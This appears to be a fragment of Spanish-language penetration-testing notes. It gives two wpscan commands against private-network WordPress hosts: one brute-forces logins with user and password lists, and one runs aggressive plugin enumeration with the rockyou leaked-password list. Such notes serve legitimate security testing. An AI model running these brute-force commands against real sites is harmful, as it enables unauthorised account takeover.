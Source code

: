 
Bruteforce a login
```
wpscan --url http://192.168.1.85/ --usernames ../enumeration/users --passwords passwd
```

Enumeración
```
wpscan --url http://192.168.1.90 --api-token <token> -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --detection-mode aggressive --plugins-detection aggressive -t 10
```